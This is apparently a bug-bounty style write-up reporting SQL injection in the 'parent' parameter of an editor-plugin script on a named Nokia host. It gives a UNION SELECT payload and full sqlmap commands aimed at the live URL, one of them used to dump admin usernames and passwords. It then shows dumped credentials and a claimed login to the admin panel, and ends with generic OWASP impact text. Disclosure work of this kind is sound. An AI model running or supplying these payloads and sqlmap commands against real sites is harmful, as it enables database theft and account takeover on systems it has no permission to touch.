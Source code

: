 # SQL injection in https://gdclive.nokia.com - parent param

# Steps To Reproduce :
* Visit this Path `/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=`
* Add This Payload in parent param (`%22%20UNION%20SELECT%20NULL,NULL,@@version,NULL,NULL,NULL,NULL,NULL--%20aa`)
  #### Now you can see the version of database in url input
  
  <img src='src/nokiasql.png'>
  
## lets exploit it using `SQLMAP Tool`
##### Command : `$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --current-db --current-user`
<img src='src/sql1.png'>

`$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --all # for get the username and password of admins`

#### Booom
  <h2> username :</h2> <h3>123456</h3>
  <h2> password :</h2> <h3>adminuser</h3>
<img src='src/oh.gif'>

###### So secure XD

### Try to login in
<img src='src/cp.jpg'>

#### pwned ^__^

# Impact :

##### A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.

### Reference : https://www.owasp.org/index.php/Top_10-2017_A1-Injection

<img src='src/nokia_rep.png'>
